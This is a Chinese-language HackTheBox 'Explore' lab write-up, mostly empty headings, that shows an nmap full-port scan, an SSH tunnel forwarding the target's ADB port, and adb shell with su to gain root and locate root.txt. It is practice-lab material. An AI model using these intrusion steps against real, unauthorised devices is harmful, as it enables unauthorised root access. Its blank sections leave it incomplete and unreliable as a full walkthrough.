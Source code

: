 # 原创
：  HackTheBox - Explore

# HackTheBox - Explore

#### HackTheBox - Explore

## 连接配置

> 



## 渗透测试

### 信息搜集

> 



```
sudo nmap -A -sS -sC -sV -p- 10.10.10.247

```

### 漏洞挖掘

> 



### getshell

> 



> 



### 提权

> 



```
ssh -L 5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222 -N -v -v

```

> 



```
adb connect 127.0.0.1:5555

```

> 



```
adb -s 127.0.0.1:5555 shell
su

```

> 



```
find / -name root.txt

```
